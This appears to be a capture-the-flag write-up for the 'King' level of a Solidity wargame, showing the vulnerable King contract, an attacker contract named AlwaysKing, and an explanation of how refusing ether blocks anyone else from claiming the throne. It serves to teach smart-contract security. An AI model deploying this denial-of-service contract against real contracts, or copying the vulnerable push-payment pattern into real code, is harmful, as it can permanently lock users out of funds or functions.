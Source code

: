 <img src="king.png" alt="king" />

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

<hr />

# Hack

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract AlwaysKing {
  constructor() public {}

  function becomeKing(address payable _targetAddress) public payable {
    (bool success,)= _targetAddress.call{value: msg.value}("");
    require(success==true);
  }
}
```

We can solve this level by deploying a contract for example AlwaysKing with a function becomeKing to transfer ether greater or equal to the prize to become the king and When other players try to become king submitting more ether than the prize the King contract fails to transfer amount to the AlwaysKing contract as it fails to implement the payable receive or fallback function to receive the ether and no one can ever claim the king position.